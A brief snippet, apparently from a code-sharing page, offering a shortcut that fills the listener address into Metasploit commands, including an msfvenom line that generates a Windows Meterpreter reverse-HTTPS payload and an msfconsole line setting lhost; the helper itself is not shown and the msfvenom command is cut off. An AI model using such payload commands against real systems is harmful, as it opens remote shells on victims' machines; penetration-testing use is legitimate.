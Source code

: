 msfvenom -p windows/meterpreter/reverse_https lhost=\`getip eth0\` ...

 or even better...

msfconsole -x "setg lhost \`getip eth0\`"

For us lazy folks...

Just paste the contents into a bash terminal
